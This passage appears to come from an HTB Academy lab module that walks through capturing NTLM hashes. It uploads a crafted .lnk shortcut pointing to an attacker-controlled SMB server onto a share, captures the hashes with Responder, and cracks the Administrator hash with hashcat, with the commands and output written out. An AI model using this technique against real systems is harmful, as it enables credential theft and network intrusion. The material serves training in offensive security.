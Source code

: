 ### Windows Shortcuts

Next, we will leverage a vulnerability in how `Windows` handles shortcut files. You see, the fundamental issue with shortcut files is their capacity to store not just paths to local files but also links to network resources. More specifically, a `.lnk` file can be engineered to include a `UNC` ( `Universal Naming Convention`) path that points to an external, attacker-controlled server rather than a legitimate local or network file.

When a user opens the folder containing the malicious `.lnk` file, `Windows` automatically tries to resolve the shortcut to generate a file icon or preview. This operation necessitates connecting to the resource the shortcut points to. If the `.lnk` file has been crafted to point to an `SMB` server controlled by an attacker, this action will trigger the `Windows` machine to attempt an `NTLM` authentication.

The `hack.lnk` is set to load a resource from our system, and we will use `Responder` to capture the `NTLM` hashes as the target `Windows` system attempts to load the resource from our system.

Using `smbclient`, we will upload the `hack.lnk` file into the `Development Share` folder, and then when a user on the target system browses the `Development Share` folder, we will capture their `NTLM Hashes`.

```shell
smbclient "//10.129.228.187/Development Share" -U "HTB-student" --password="HTB_@cademy_stdnt!" -c "put hack.lnk"

putting file hack.lnk as \hack.lnk (72.9 kb/s) (average 72.9 kb/s)

```

As expected, as soon as someone opens the folder, we get the hashes.

![](RMKA7sWbS8A2.png)

## Cracking the hashes

Now that we have the hashes, we can crack the password for `WIN-41LARS8U72P\Administrator`. Paste the hash into a new file and then fire up `hashcat` using the `rockyou wordlist`.

```shell
echo "Administrator::WIN-41LARS8U72P:0b68568ed3fcaf11:CC1C7F08BECB0234AA98B9...SNIP,,," >> hash

hashcat -m 5600 -a 0 hash /usr/share/wordlists/rockyou.txt -O
hashcat (v6.1.1) starting...

...

Dictionary cache built:
* Filename..: /usr/share/wordlists/rockyou.txt
* Passwords.: 14344392
* Bytes.....: 139921507
* Keyspace..: 14344385
* Runtime...: 1 sec

Administrator::WIN-41LARS8U72P:0b68568ed3fcaf11:CC1C7F08BECB0234AA98B9...SNIP...:chris...SNIP...

Session..........: hashcat
Status...........: Cracked
Hash.Name........: NetNTLMv2
Hash.Target......: ADMINISTRATOR::WIN-41LARS8U72P:0b68568ed3fcaf11:cc1...000000
Time.Started.....: Mon Oct 30 12:04:28 2023 (0 secs)
Time.Estimated...: Mon Oct 30 12:04:28 2023 (0 secs)
Guess.Base.......: File (/usr/share/wordlists/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:    61895 H/s (3.01ms) @ Accel:1024 Loops:1 Thr:1 Vec:8
Recovered........: 1/1 (100.00%) Digests
Progress.........: 4096/14344385 (0.03%)
```